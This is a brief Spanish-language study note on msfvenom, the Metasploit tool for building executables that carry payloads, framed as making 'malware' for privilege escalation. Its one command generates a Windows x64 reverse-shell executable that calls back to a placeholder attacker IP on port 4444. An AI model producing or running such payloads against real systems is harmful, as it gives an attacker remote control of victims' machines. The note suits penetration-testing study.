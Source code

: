 # msfvenom

MSFVenom es una herramienta, dentro del framework de Metasploit, que nos permite generar archivos con payloads dentro. Es decir, en lugar de incluir el payload en un exploit, como haríamos con la herramienta msfconsola, el objetivo aquí es crear un "malware" que al ejecutarlo lance el payload.

Este tipo de malware nos puede permitir escalar privilegios.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o reverse.exe`

